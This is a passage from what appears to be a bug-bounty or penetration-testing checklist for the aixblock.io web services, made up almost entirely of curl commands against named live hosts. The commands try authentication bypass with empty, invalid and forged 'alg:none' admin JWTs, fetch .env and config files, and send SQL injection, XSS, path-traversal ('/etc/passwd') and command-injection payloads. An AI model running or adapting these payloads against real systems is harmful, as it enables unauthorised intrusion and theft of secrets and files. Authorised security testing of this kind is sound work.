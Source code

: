 #### **4. Authentication & Authorization Testing**
```bash
# Test authentication bypass
curl -s "https://workflow.aixblock.io/api/v1/flags" -H "Authorization: Bearer invalid-token" -v
curl -s "https://workflow.aixblock.io/api/v1/flags" -H "Authorization: Bearer " -v
curl -s "https://workflow.aixblock.io/api/v1/flags" -H "Authorization: " -v

# Test SAML endpoints
curl -s "https://workflow.aixblock.io/api/v1/authn/saml/acs" -v
curl -s "https://workflow.aixblock.io/api/v1/authn/saml/metadata" -v

# Test webhook endpoints
curl -s "https://workflow.aixblock.io/api/v1/webhooks" -v
curl -s "https://webhook.aixblock.io/api/v1/webhooks" -v

# Test JWT manipulation
curl -s "https://workflow.aixblock.io/api/v1/flags" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9." -v
```

#### **5. Information Disclosure Testing**
```bash
# Configuration endpoints - ALWAYS test with live PoC
curl -s "https://workflow.aixblock.io/api/v1/flags" -v > config_disclosure_poc.json
curl -s "https://workflow.aixblock.io/api/v1/config" -v
curl -s "https://workflow.aixblock.io/api/v1/settings" -v

# Error message analysis
curl -s "https://workflow.aixblock.io/nonexistent" -v
curl -s "https://workflow.aixblock.io/api/v1/invalid" -v

# Version disclosure
curl -s "https://workflow.aixblock.io/api/v1/version" -v
curl -s "https://workflow.aixblock.io/api/v1/health" -v

# Directory enumeration
curl -s "https://workflow.aixblock.io/.env" -v
curl -s "https://workflow.aixblock.io/config.json" -v
curl -s "https://workflow.aixblock.io/package.json" -v
```

#### **6. Input Validation Testing**
```bash
# SQL injection testing
curl -s "https://workflow.aixblock.io/api/v1/query" -d "query=SELECT * FROM users" -v
curl -s "https://workflow.aixblock.io/api/v1/query" -d "query=' OR '1'='1" -v
curl -s "https://workflow.aixblock.io/api/v1/query" -d "query=1' UNION SELECT * FROM users--" -v

# XSS testing
curl -s "https://app.aixblock.io/search" -d "q=<script>alert('xss')</script>" -v
curl -s "https://app.aixblock.io/search" -d "q=javascript:alert('xss')" -v
curl -s "https://app.aixblock.io/search" -d "q=<img src=x onerror=alert('xss')>" -v

# Path traversal testing
curl -s "https://workflow.aixblock.io/api/v1/files/../../../etc/passwd" -v
curl -s "https://workflow.aixblock.io/api/v1/files/..%2F..%2F..%2Fetc%2Fpasswd" -v
curl -s "https://workflow.aixblock.io/api/v1/files/....//....//....//etc/passwd" -v

# Command injection testing
curl -s "https://workflow.aixblock.io/api/v1/exec" -d "cmd=whoami" -v
curl -s "https://workflow.aixblock.io/api/v1/exec" -d "cmd=id" -v
curl -s "https://workflow.aixblock.io/api/v1/exec" -d "cmd=ls -la" -v
```
